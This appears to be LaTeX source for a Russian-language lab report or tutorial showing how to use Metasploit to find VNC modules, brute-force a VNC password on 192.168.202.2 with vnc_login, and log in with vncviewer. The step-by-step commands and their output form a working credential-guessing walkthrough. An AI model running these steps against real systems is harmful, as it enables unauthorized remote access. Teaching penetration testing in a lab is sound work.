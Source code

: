 \documentclass[10pt,a4paper]{report}
\begin{document}
		Просмотрим модули, для использования уязвимостей в VNC при помощи команды 
		<<search vnc>>:
		\begin{lstlisting}
msf > search vnc

Matching Modules
================

Name                                                 Disclosure Date  
Rank       Description
----                                                 ---------------  
----       -----------
auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       
normal     RealVNC NULL Authentication Mode Bypass
auxiliary/scanner/vnc/vnc_login                                       
normal     VNC Authentication Scanner
auxiliary/scanner/vnc/vnc_none_auth                                   
normal     VNC Authentication None Detection
auxiliary/server/capture/vnc                                          
normal     Authentication Capture: VNC
exploit/multi/misc/legend_bot_exec                   2015-04-27       
excellent  Legend Perl IRC Bot Remote Code Execution
		\end{lstlisting}
		
		Для работы необходимо запустить модуль auxiliary/scanner/vnc/vnc\_login:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 192.168.202.2
RHOSTS => 192.168.202.2
msf auxiliary(vnc_login) > exploit 

[*] 192.168.202.2:5900 - Starting VNC login sweep
[+] 192.168.202.2:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
		\end{lstlisting}
		Запустим vncviewer и войдем при помощи узнанного пароля:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 192.168.202.2:5900
[*] exec: vncviewer 192.168.202.2:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
		\end{lstlisting}
		Результат представлен на рисунке~\ref{ris:vncviewerLogin}.
		
\end{document}
